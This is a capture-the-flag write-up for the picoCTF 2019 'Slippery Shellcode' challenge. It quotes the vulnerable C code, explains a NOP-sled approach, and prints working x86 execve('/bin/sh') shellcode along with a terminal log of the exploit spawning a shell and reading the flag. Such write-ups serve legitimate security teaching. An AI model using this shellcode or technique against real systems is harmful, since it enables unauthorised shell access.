 # Slippery Shellcode

Looking at the source code we see that after taking the input the program starts execution from a random address
```c
puts("Thanks! Executing from a random location now...");
  int offset = (rand() % 256) + 1;
  ((void (*)())(buf+offset))();
```
this one is fairly simple..
we just add a bunch of \x90's before our shellcode (around 200 )

```
NOP or N.O.P. may refer to: NOP (code), an assembly language instruction etc. that effectively does nothing at all.
```
So when the instruction pointer lands on the '/x90' instruction it executes it (which does nothing) and makes its way to our shellcode

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

use ```io.interactive()``` or ``` ; cat ``` after the payload to get the shell to persist 

```bash
arch3r@1nv4d3r:~/p1c0CTF_2019/Shellc0d3$ python exploit.py 
[+] Starting local process './vuln': pid 30701
[*] Switching to interactive mode
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901�Ph//shh/bin\x89���\x89°\x0b̀1�@̀
Thanks! Executing from a random location now...
$ ls
exploit.py  flag.txt  vuln  vuln.c
$ cat flag.txt
flag{Sh3llc0dee!}
```
..aand here's our shell..!!

